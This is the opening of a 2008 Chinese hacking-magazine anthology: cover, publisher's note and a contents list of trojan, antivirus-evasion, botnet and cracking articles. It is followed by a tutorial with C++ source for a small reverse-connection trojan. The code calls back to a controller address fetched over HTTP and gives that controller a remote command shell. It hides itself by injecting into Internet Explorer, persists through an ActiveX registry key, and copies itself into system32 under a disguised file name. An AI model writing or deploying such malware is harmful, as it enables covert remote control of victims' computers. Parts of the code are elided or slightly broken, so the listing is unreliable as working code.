# 黑客防线2008精华本（上）

---

攻与防的对立统一中寻求突破。

## 黑客防线2008精华奉献（上）

黑客防线 编

- 黑客编程精华实例
- 黑客免杀技术速成
- 网络信息采集战点面
- 加密解密技巧与实现

10大黑客技术专题栏目  
200篇精品攻防文章  
1200MB黑客经典工具与教程

ISBN 7-900447-54-7  
9787900447548

2（附光盘）CD-ROM

全套定价：39.80元（附光盘）

## 黑客攻防从入门到实践 2008 精华奉献

黑客防线 编

## 内容提要

《黑客防线2008精华奉献本》是国内最早创刊的网络安全类媒体《黑客防线》总第73期到第84期的精华文章摘要，杂志理念“在攻与防的对立统一中寻求突破”完美地体现在本书中。全书按攻防对立的关系，分为上下两册（本册为下册），并附带2张包含1200M安全技术录像的光盘。文章通俗易懂、图文并茂，在每个关键知识点和细节上还有详细的“小知识”“小提示”，方便大家理解和阅读。在栏目划分上，选取了网络安全技术上最热门、读者最喜欢的各大栏目，典型的有脚本攻击/脚本攻击防范、漏洞攻击/漏洞攻击防范、黑兵器库/黑器攻击防范等，并增加了全新的专题文章，同时选取国内首创的“新手学溢出”栏目中的精品文章，非常适合各层次读者学习！

本书适合各高校在校生、网络管理员、安全公司从业者、黑客技术爱好者阅读。

## 黑客防线2008精华奉献本（上册）

- 编：《黑客防线》编辑部
- 责任编辑：徐生震
- 编辑策划：李志华 黄婷
- 出版：齐鲁电子音像出版社
- 开本：782×1092 1/16
- 印张：36
- 字数：3800千字

ISBN 7-900447-54-7  
全套定价：39.80元（附双光盘）

本书如有印刷质量问题（错页、掉页、残页等），请您与我们联系，我们负责调换。  
联系电话：010-62141446  
图文版权所有，未经同意不得转载、翻印。

## 关于黑客防线2008精华本的出版说明

首先，要向广大支持、爱戴《黑客防线》的读者朋友们表示歉意，由于各种原因，2008精华本迟至今日才得以出版。对于多次询问、催促的朋友们，算是有了一个交代。

2008年，是不平凡的一年。这一年，黑防做了很多事情，包括杂志进一步提升技术水平，到了后半年又考虑到很多入门级读者的要求，把光盘改为普及型的电子杂志。同时，网站的VIP会员的规范性管理、培训班的正规化管理，很多事情都是在这一年完成的。以至于使2008精华本拖延至今，好在我们还是在年底之前把它制作出来了，算是了了一桩心愿。对于时刻关注黑防的人，完整收藏黑防精华本的人，总算没有出现空缺一本的遗憾。

其实，大家都知道，所谓2008精华本，大部分都是2007年以来的精华文章，只不过重新制作一本精华本，就给了我们又一次去粗取精、去伪存真的机会。特别是随着时间的过后几个月，对各方面技术的认识又会多一些沉淀和判断，也是读者对于我们选编水平和技术评判标准的又一次检验。说到这里，让我们再一次感谢读者对我们的认可和支持，也感谢我们的作者提供的分门别类的技术原创文章。特别要感谢的是，那些没有选入精华本文章的作者，还是一如既往地支持我们，提出宝贵的建议，同时自己在购买着精华本。

在此需要说明的是，很多读者踊跃购买精华本，一方面表明对精华本这种出版形式的认可，同时也是由于对于每月购买《黑客防线》月刊感到不便。这也是困扰我们多年的问题。庆幸的是，对于月刊的发行和订阅，已经有了一些改进的方法在实施。特别是2009年的订阅，准备完全采用快递的方式，这就首先解决了不能够及时到报亭购买杂志的繁忙人士的困难。对于了解新的技术，也就不用等得很久了。

这本精华本发行之际，差不多也快到感恩节了。让我们感恩一个网络时代带给我们网络技术的这个新领域，感恩通过技术追求建立起来的共同部落，感恩作者、编者和读者这种不解之缘。还要感恩我们网站的VIP会员、培训班学员，他们之中有很多人已经成为我们的作者和技术团队成员。最后要感恩的是，在技术面前人人平等——这就是黑客防线赋予我们的无限机缘。

## 黑客防线2008精华奉献本

## 目录（上册）

### 编程解析篇

- VC编写精小反弹穿墙木马 …… 1
- 制作永久卡巴免杀ms06014网马生成器 …… 6
- 编程实现木马的ActiveX启动和注入IE的启动方式 …… 9
- 文件监控开发过程 …… 11
- JSP--Java编程与木马技术 …… 15
- 修改引入表打造穿透KIS6的下载者 …… 19
- 编写自己的搜索引擎查找用户QQ群 …… 25
- 套接字编程实现网页内容的获取 …… 27
- VC轻松打造Spy++ …… 28
- 木马编程DIY之系统服务 …… 34
- 简约主义VB后门之菜鸟制造 …… 37
- 编程实现DRDoS攻击 …… 41
- 浅谈蠕虫病毒的特性——仿制熊猫烧香 …… 43
- 利用WinPcap编写驱动Sniffer …… 45
- 以“熊猫烧香”的名义，再谈Delphi编写病毒程序 …… 48
- 批处理版熊猫烧香全程再现 …… 54
- Office Spy DIY …… 58
- 盗号研究怎能缺少新浪UC …… 60
- NT系统中利用远程线程实现无进程无DLL …… 62
- 3KB实现多功能PHP小马SimPony …… 65
- 卸载远程进程中的DLL …… 67
- 也谈VC打造U盘防火墙 …… 69
- 编程实现手机远程控制电脑 …… 71
- DNS放大攻击原理、实现与防御 …… 75
- 感染系统文件实现自启动 …… 76
- Windows Rootkit开发初步 …… 80
- 利用Hook API实现进程守护 …… 84
- 详解挂钩SSDT …… 86
- 偷梁换柱——木马启动另类大法 …… 89
- 服务端生成技术的思考 …… 91
- C#编程实现半开扫描器 …… 93
- 自己动手编写SQL注入漏洞扫描器 …… 95
- 用原始套接字实现网络入侵检测系统 …… 98
- 利用WinInet和多线程实现实时显示下载进度条 …… 104
- B/S模式远程控制简单实现 …… 106
- 基于SMTP/POP3协议的新型僵尸网络实现 …… 110
- IRCBOT，由协议分析到编程实现 …… 114
- 自己编程抓肉鸡——将捕获消息进行到底 …… 118
- 浅窥导入函数及输出导入表的内容 …… 120
- 为反弹远控服务端减肥 …… 122
- 增加空节让PE感染过卡巴斯基 …… 124

#### 黑客攻防

- 傀儡僵尸终极免杀 …… 126
- 猎杀灰鸽子——针对木马控制端的攻击 …… 128
- 另类跨站攻击工具XSS Shell …… 131
- 黑防鸽子再免杀 …… 134
- 打造自己的加壳程序 …… 136
- 免杀NOD32查杀机制之输入输出表篇——驳网上流传的错误方法 …… 138
- 利用“壳中改籽”免杀灰鸽子2007 …… 141
- 黑洞1.81试用、隐藏与免杀心得 …… 143
- 上兴的内网上线和简单免杀 …… 144
- 灰鸽子2007全新免杀 …… 146
- PCShare2007新免杀 …… 148
- 修改5款壳头过卡巴斯基 …… 151
- 脚本后门及网页木马的免杀 …… 153
- 全面免杀NS远控 …… 155
- 木马免杀之内存定位最新QQ医生1.4版 …… 157

#### 网管之家

- 让ISA Server 2004与南北互通软件开花结果 …… 160
- 打造企业即时消息协作平台——部署Live Communications Server 2005 …… 162
- 用Debugging Tools for Windows寻找服务器意外重启的线索 …… 168
- 实战BitLocker加密 …… 169
- 部署ISA Server 2006企业版防火墙阵列 …… 172
- 客户端安装之网络GHOST …… 177
- 自动移动新装机到相应部门OU …… 180
- 批处理创建层次分明的文件服务器 …… 181
- DIY简易硬件防火墙 …… 182
- 菜鸟也学PC上架Cisco路由器 …… 186

#### 软件导航

- 小菜学破解之一：破解兵器、要点及其组合 …… 189
- 小菜学破解之二：玩“风” …… 193
- 非明码程序的算法初体验 …… 196
- 小菜学破解之三：玩“风”之追“风” …… 201
- 手把手教你.net程序加解密之一：初识.net程序破解 …… 208
- 手把手教你.net程序加解密之二：名称混淆——代码的重用 …… 210
- 小菜学破解之四：汇编助记符与算法分析基础 …… 212
- 深入分析与破解QQ键盘加密保护的反nProtect技术 …… 219
- 手把手教你.net程序加解密之三：强名称保护 …… 224
- 小菜学破解之五：爆破、爆破分析与爆破方法 …… 226
- 手把手教你.net程序加解密之四：.net下程序的脱壳 …… 232
- 小菜学破解之六：例说软件插件的跟踪分析方法 …… 235
- 小菜学破解之七：VB程序的跟踪与分析技术 …… 243

适合读者：编程爱好者、木马爱好者  
前置知识：VC

## VC编写精小反弹

##### 实战木马

文／苏明奇（x8ym）

现在的木马满天飞，比较出名和被大家认可的要数灰鸽子和PCShare了，但这些软件免不了被杀毒软件厂商盯得严严实实，一般都要辛辛苦苦地做免杀。大家都知道，免杀只是相对的，我们可以通过修改特征码、修改入口点、加花指令、加壳等手段去加密我们的小马，但这些都是有局限性的，毕竟我们只能修改相对比较出名的杀毒软件的病毒码，如卡巴斯基、NOD等，并不能保证我们的木马不被其他的杀毒软件所识别。为了做到万无一失，最好的方法就是自己写木马。说到自己写木马，网上的程序还真多，但究竟哪个适合自己呢？

其实木马的最初面目就是后门，只要实现最必要的功能就可以了。如果能得到被控制端的Shell，基本上其他的任何资源都可以获取到。也就是说，我们只需要实现一个可控制对方DOS或CMD的功能就完全可以了。当然，实现一个控制端可以控制无限个服务端，能自动上线就更好了，还有比如穿透防火墙、插入进程IE、自动启动之类的也都能实现，也就可以称得上是一个完整的小马了。那么，怎样去编写一个完整的小马呢？好像没有什么动画和文章专门去描述或讲解一个完整的过程，最多也就是写一个小功能或一部分功能之类的，或者干脆放上源代码算了（自己看吧，才不管你是否看得懂呢）。OK，下面我给大家带来的小马编写过程就完全可以满足上面的需求，打造一个自己的版本完全不是梦了，呵呵。

首先是编程工具的选择。目前流行的开发工具有C++Builder、Delphi、VB和VC。C++Builder很不错，而且不复杂，适合新手；Delphi更好，网上Delphi木马程序非常多；VB我不推荐，其编写的服务端需要类库，而且编译出的软件也比较大；VC则强烈推荐，虽然VC比较复杂，代码写得相对比较多，但是VC编译出的软件非常精巧，而且运行效率非常高。

所以我们的开发工具就是VC，毕竟我们要写的软件功能不复杂，而且需要精小，运行效率要求高。DLL木马的编写在以前的杂志上已经讲得很多了，今天我们在温习以前知识的基础上再研究与分析一下Dll.dll的代码。这个Dll.dll其实是服务端的核心，所有控制端和服务端通讯的代码都是在这里实现的。这个Dll.dll是被后面我们要讲到的App.exe动态释放出来的，释放的同时通过App.exe的处理把它动态注入到IE浏览器中，也就实现了瞒过防火墙的目的。这个Dll.dll的具体编写过程我就不一步一步写了，大家直接看源代码吧！

##### 服务端编写

闲话少说，直接用VC打开我们的工程文件Dll.dsw来到MyDll处（入口地址，这个是被我们修改过的。每一个DLL必须有一个入口点，DLLMain是一个缺省的入口函数，负责初始化（Initialization）和结束（Termination）工作。每当一个新的进程或者该进程的新的线程访问DLL时，或者访问DLL的每一个进程或者线程不再使用DLL或者结束时，都会调用DLLMain），其代码如下：

```cpp
MyDll(HINSTANCE hInstance, DWORD dwReason, LPVOID lpReserved)
{
    // 不使用 lpReserved 参数
    UNREFERENCED_PARAMETER(lpReserved);

    // 进程载入
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        // 初始化开始
        TRACE0("DLL.DLL Initializing.\n");

        // MyDll 调用 AfxInitExtensionModule 函数，必须检查返回值
        if (!AfxInitExtensionModule(DllDLL, hInstance))
            return 0;
    }
}
```

```cpp
// ActiveX 启动所需要的，删除系统相关的启动信息
CreateThread(NULL, NULL, del, NULL, NULL, NULL);

// new 是在堆上分配内存
new CDynLinkLibrary(DllDLL);
// 启动我们的程序
StartProcessAtStartup(NULL);
...
// 在这里我们进行清除工作，也就是 DLL 退出时
else if (dwReason == DLL_PROCESS_DETACH)
{
    TRACE0("DLL.DLL Terminating\n");
    CreateThread(NULL, NULL, del, NULL, NULL, NULL);
    // ActiveX--AfxTermExtensionModule 释放前面在堆上分配的内存
    AfxTermExtensionModule(DllDLL);
}
return 1;
```

```cpp
// 关闭句柄
CloseHandle(hmutex);
```

在 `StartProcessAtStartup(PWLX_NOTIFICATION_INFO pInfo)` 方法中，其最核心的部分就是 `DWORD WINAPI StartMyService(LPVOID lpvoid)` 函数了，该函数的内部如下：

```cpp
DWORD WINAPI StartMyService(LPVOID lpvoid)
{
    // 如果读取 SystemUp.top 文件不成功，则返回 -1
    if (!ReadIniFile()) {
        return -1;
    }

    while (TRUE) {
        char buf[1024] = {0};
        if (!GetHttpFile(Ini[0].httpsrc, NULL, buf)) {
            Sleep(1000*10);
            TRACE("FALSE!");
            continue;
        }

        // 初始化 IP 与 Port
        DWORD IP = 0;
        USHORT Port = 0;
        if (!DecodeMasterInfor(buf, &IP, &Port))
            continue;

        if (msInfor.dwIP != IP || Port != msInfor.uPort) {
            printf("New THREAD!");
            msInfor.dwIP = IP;
            msInfor.uPort = Port;
            CreateThread(NULL, NULL, StartNewConnect, (LPVOID)&msInfor, 0, 0);
        }
        Sleep(10000);
    }
    return 1;
}
```

首先，这个入口函数中最主要的函数只有启动我们程序的一句 `StartProcessAtStartup(NULL)`，它是启动的主函数，做了WSA初始化以及支持多任务相关的操作，并负责调用单线程服务端通讯基本的通用方法 `CreateThread(NULL,NULL,StartMyService,NULL,NULL,NULL)`。其次，它也用到了 `CreateThread(NULL,NULL,del,NULL,NULL,NULL)`，它是ActiveX启动所必须的。我们在 `HKEY_LOCAL_MACHINE` 注册了ActiveX键值的同时，需要在程序被销毁或退出的时候删除掉 `HKEY_CURRENT_USER` 中所对应的信息。下面我们就具体地看看 `StartProcessAtStartup(NULL)` 内部的方法与实现细节：

```cpp
VOID APIENTRY StartProcessAtStartup(PWLX_NOTIFICATION_INFO pInfo)
{
    WSADATA WSAData;
    // 初始化 WSA
    if (WSAStartup(MAKEWORD(2,2), &WSAData) != 0) {
        return;
    }

    // 创建互斥对象，支持多任务
    HANDLE hmutex = CreateMutex(NULL, FALSE, NULL);
    // WaitForSingleObject 函数用来检测 hmutex 事件状态
    WaitForSingleObject(hmutex, INFINITE);

    // 这句是 StartProcessAtStartup 中最主要的方法了
    CreateThread(NULL, NULL, StartMyService, NULL, NULL, NULL);

    // ReleaseMutex() 函数用来释放其拥有的互斥对象
    ReleaseMutex(hmutex);
}
```

这个函数中比较重要的部分是读取ini文件的函数 `ReadIniFile()`，获取IP地址的函数 `GetHttpFile(Ini[0].httpsrc,NULL,buf)`，创建新连接的线程函数 `CreateThread(NULL,NULL,StartNewConnect,(LPVOID)&msInfor,0,0)`。这里我们主要说一下第3个函数 `CreateThread`，其代码如下：```cpp
DWORD WINAPI StartNewConnet(LPVOID lpvoid)
{
    // 创建Socket
    SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    SOCKADDR_IN addr_in = {0};
    addr_in.sin_family = AF_INET;
    addr_in.sin_addr.S_un.S_addr = msInfor.dwIP;
    addr_in.sin_port = msInfor.uPort;

    int ret = SOCKET_ERROR;
    HANDLE hp = NULL;
    while (ret == SOCKET_ERROR)
    {
        ret = connect(sock, (struct sockaddr*)&addr_in, sizeof(addr_in));
        if (ret == 0)
        {
            send(sock, "Who?", 4, 0);
            char buf[64] = {0};
            int oldopt = 0;
            int len = sizeof(int);
            ret = getsockopt(sock, SOL_SOCKET, SO_RCVTIMEO, (char*)&oldopt, &len);
            int newopt = 3000;
            ret = setsockopt(sock, SOL_SOCKET, SO_RCVTIMEO, (char*)&newopt, len);
            ret = recv(sock, buf, 64, 0);
            ret = setsockopt(sock, SOL_SOCKET, SO_RCVTIMEO, (char*)&oldopt, len);

            ret = strcmp(buf, "CKAdmin");
            if (ret == 0)
            {
                CreateCMD(...);
                hp = CreateThread(NULL, NULL, CreateCMD, (LPVOID)sock, 0, 0);
                if (hp == NULL) return 0;
                break;
            }
            else
            {
                ...
            }
        }
    }

    {
        ret = -1;
        // 关闭socket
        closesocket(sock);
        sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    }
    Sleep(1000);
    return 1;
}
```

以上这些就是 Dll.dll 的主要代码了。至此，所有与控制端通讯的（也就是最主要的服务端）部分也就介绍完了。但它毕竟仅仅是个 DLL 的 PE 文件，并不是一个可执行文件，而且我们需要把它动态地注入到 IE 中（当然，也可以注入到其他进程中）。现在有很多木马都不用 DLL 了，自己在执行的时候直接注入到 IE 或者其他程序之中，这样可以减少体积；但是 DLL 也有其优点，便于移植和共享。下面我们就来看看 DLL 的幕后操作者，先看 App.exe 源码开头部分。

```cpp
#include "Tiny.h"
#define INIFILE "SystemUp.top"
// 定义了ini文件的存储名称
#define SystemUp "SystemUp.dll"
// 定义了被我们释放出来的DLL的最终名称
BOOL InjectExplorer();   // 进程插入主函数
BOOL EnablePrivilege();  // 权限提升函数
BOOL CreateIniFile();    // 用来创建ini文件
```

引入 Tiny.h 主要是优化 App.exe 的体积，其代码如下：

```cpp
// Version 1.10
// xgym
// Version 1.00
#ifdef _NDEBUG
#pragma optimize("gsy", on)
// RELEASE 的方式编译
#pragma comment(linker, "/RELEASE")
#ifdef _MERGE_RDATA_
// 区段的合并
#pragma comment(linker, "/merge:rdata=.data")
#endif
#pragma comment(linker, "/merge:.text=.data")
...
#pragma comment(linker,"/merge:.reloc=.data")
#if _MSC_VER >= 1000
#endif
#endif

// 入口点函数
#pragma comment(linker,"/ENTRY:WinMain")
#pragma comment(linker,"/MERGE:.rdata=.data")
#pragma comment(linker,"/MERGE:.text=.data")
#pragma comment(lib,"msvcrt.lib")
#if (_MSC_VER < 1300)
  #pragma comment(linker,"/IGNORE:4078")
  #pragma comment(linker,"/OPT:NOWIN98")
#endif
#define WIN32_LEAN_AND_MEAN
```

这个 Tiny.h 真是太好了，记得每次写小程序的时候，在需要优化体积时总是需要去配置一些参数之类的，现在直接把 Tiny.h 引入到源代码之中就可以了。

InjectExplorer()（注入任何进程的注入函数）和 EnablePrivilege()（提升权限的函数）在以前杂志的编程里面有很多类似的方法与分析了，这里就不再赘述了。我们先说说其他的函数，就从入口函数说起吧，如图1所示。

```cpp
int APIENTRY MyApp(HINSTANCE hInstance,
                   HINSTANCE hPrevInstance,
                   LPSTR lpCmdLine,
                   int nCmdShow)
{
    PROCESS_INFORMATION pi = {0};
    STARTUPINFO si = {0};
    ZeroMemory(&si,sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    pi.hProcess = SW_HIDE;
    CreateProcess(...);

    CreateIniFile();
    HKEY hKey;
    TCHAR svExeFile[256] = "...\\system32\\exloroe.exe";
    RegCreateKey(...);
    RegSetValueEx(...);
    RegCloseKey(hKey);
    CreatServer();
    EnablePrivilege();
    InjectExplorer();
    CopySelfToSysdir();
    return 0;
}
```

图1

MyApp（WinMain 修改而来）是我们的入口函数，CreateIniFile() 以上的代码全是启动 IE 用的，因为如果 IE 没有启动，插入 IE 的 DLL 将会失败。CreateIniFile() 用来创建 ini 文件，确切地说是创建 SystemUp.top 文件。CreateIniFile() 和 CreatServer() 之间的代码是 ActiveX 启动的方法，我们的 App.exe 最终将放在系统目录的 system32 中，命名为 \exloroe.exe，ActiveX 注册在 HKEY_LOCAL_MACHINE 中的键值和路径分别设置为 {H9112BB03-AB-B70-7-11d2-9CBD-0000F57AH6-9E2121BHJLK} 和文件的绝对路径。CreatServer() 函数用来创建生成好的 DLL 文件。下面详细地解释一下在这个函数创建之前，我们需要做的工作。

首先在开始的时候，我们已经编译好了 Dll.dll 文件，把它拷贝到当前 App.exe 工程目录下面，然后浏览工程中的 ResourceView（Script resource），如图2所示。在 Script resources 上点击右键，选择“插入”，如图3所示，然后引入我们的 Dll.dll 文件，资源类型可以自己定义，或者直接选择我定义好的 DLL 类型，如图4所示。







引入以后，我们就可以把 Dll.dll 当成 App.exe 的资源来看待了，下面再看一下代码里面是怎样实现的。整个 CreatServer() 函数的代码如下：

```cpp
BOOL CreatServer()
{
    HRSRC hResInfo;
    HGLOBAL hResData;
    DWORD dwSize,dwWritten;

    // 文件句柄
    HANDLE hFile;
    char SystemPath[MAX_PATH] = {0};

    // 获取系统目录
    GetSystemDirectory(SystemPath, MAX_PATH);
    int len = strlen(SystemPath)-1;
    if (SystemPath[len] != '\\')
        strcat(SystemPath,"\\");

    // 把资源DLL.dll 重新命名为 SystemUp (SystemUp.dll)并复制到系统目录中
    strcat(SystemPath, SystemUp);
    // 查询所需的资源
    hResInfo = FindResource(NULL, MAKEINTRESOURCE(IDR_DLL), "Dll");
    if(hResInfo == NULL)
    {
        MessageBox(NULL, "查询所需的资源", "错误", MB_OK);
    }

    // 获得资源尺寸
    dwSize = SizeofResource(NULL, hResInfo);
    // 装载资源
    hResData = LoadResource(NULL, hResInfo);
    if(hResData == NULL)
        return FALSE;
    // 写文件
    hFile = CreateFile(SystemPath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
    if(hResData == NULL)
        return FALSE;
    WriteFile(hFile, (LPCVOID)LockResource(hResData), dwSize, &dwWritten, NULL);
    CloseHandle(hFile);
    return TRUE;
}
```

上面代码的注释已经非常清晰了，大家看了就会明白的。这里最主要的代码是 `hResInfo = FindResource(NULL, MAKEINTRESOURCE(IDR_DLL), "Dll")`，也就是写明要获取资源的 ID 和类型。最后还用到了 `CopySelfToSysdir()` 函数，其代码如下：

```cpp
BOOL CopySelfToSysdir()
{
    // 我们要隐藏在 %SystemRoot%\system32\ 下虚假的程序名为 exloroe.exe
    const TCHAR* fakeExeName = "exloroe.exe";

    TCHAR szDestPath[MAX_PATH];
    TCHAR szTmp[MAX_PATH]={0};
    // 获取后程序自身的全路径
    if(!GetModuleFileName(NULL, szTmp, sizeof(szTmp)))
    {
        return FALSE;
    }

    // 获取系统目录路径
    if(!GetSystemDirectory(szDestPath, MAX_PATH))
    {
        return FALSE;
    }

    // 得到目标全路径 %SystemRoot%\system32\exloroe.exe
    ...
    lstrcat(szDestPath, "\\");
    lstrcat(szDestPath, fakeExeName);
    // 执行自拷贝操作，把自身复制到系统目录下
    if(!CopyFile(szTmp, szDestPath, FALSE))
    {
        return FALSE;
    }
    return TRUE;
}
```

这样就实现了程序的自我复制到系统目录的过程，服务端的编写也就全部完成了。

##### 控制端编写

控制端我就不详细说明了，大家可以看我的源代码仔细研究一下。我的控制端其实是把服务端当成资源合并过来，这样在创建服务端的时候就动态地产生了。合并方法和 Dll.dll 加入到 App.exe 中的方法是一样的。

接下来简单介绍一下我编写的木马的功能和界面。这个木马支持 Windows 2000/XP/2003 系统，其特点是无进程、无端口、ActiveX 启动，保证开机运行，利用 DLL 远程线程注入到 IE 中，可以突破大多数防火墙。本身体积很小，只有 6K 左右；客户端支持多线程，服务端互不影响，可控制多个服务端。服务端和客户端总共只有 20K 左右，随身携带非常方便；可用于外网控制内网、跨局域网访问（迈科标准版或端口映射）。其功能包括支持密码验证、反向远程终端（Shell）。

下面是软件应用时的截图，主界面如图5所示，创建服务端时的界面如图6所示，服务端上线时的界面如图7所示；连接到服务端后，要求密码验证的窗口如图8所示，验证密码后返回最终的窗口如图9。



